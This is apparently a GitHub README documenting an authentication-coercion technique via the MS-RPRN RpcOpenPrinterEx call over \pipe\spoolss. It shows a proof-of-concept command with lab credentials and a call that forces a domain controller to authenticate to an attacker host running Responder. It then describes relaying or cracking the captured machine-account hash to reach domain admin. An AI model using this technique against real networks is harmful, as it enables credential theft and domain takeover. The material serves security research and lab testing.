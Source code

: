 # MS-RPRN - Remote call to RpcOpenPrinterEx (opnum 69)

## Summary

 - **Protocol**: [[MS-RPRN]: Print System Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1)

 - **Protocol UUID**: 12345678-1234-abcd-ef00-0123456789ab

 - **Protocol version**: 1.0

 - **SMB Named pipe**: `\pipe\spoolss`

 - **Function name**: [`RpcOpenPrinterEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/0e81ce18-72b1-46c3-8584-a205393b04ff)

 - **Function operation number**: `69`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\spoolss` and bind to the desired [`MS-RPRN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1) protocol (with uuid `12345678-1234-abcd-ef00-0123456789ab` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-RPRN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\pipe\spoolss` This pipe is connected to the protocol [[MS-RPRN]: Print System Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1) and allows to call RPC functions of this protocol. We will then call the remote [`RpcOpenPrinterEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/0e81ce18-72b1-46c3-8584-a205393b04ff) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
RpcOpenPrinterEx('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD RpcOpenPrinterEx(
   [in, string, unique] STRING_HANDLE pPrinterName,
   [out] PRINTER_HANDLE* pHandle,
   [in, string, unique] wchar_t* pDatatype,
   [in] DEVMODE_CONTAINER* pDevModeContainer,
   [in] DWORD AccessRequired,
   [in] SPLCLIENT_CONTAINER* pClientInfo
 );
```

## References

 - Documentation of protocol [MS-RPRN]: Print System Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1

 - Documentation of function `RpcOpenPrinterEx`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/0e81ce18-72b1-46c3-8584-a205393b04ff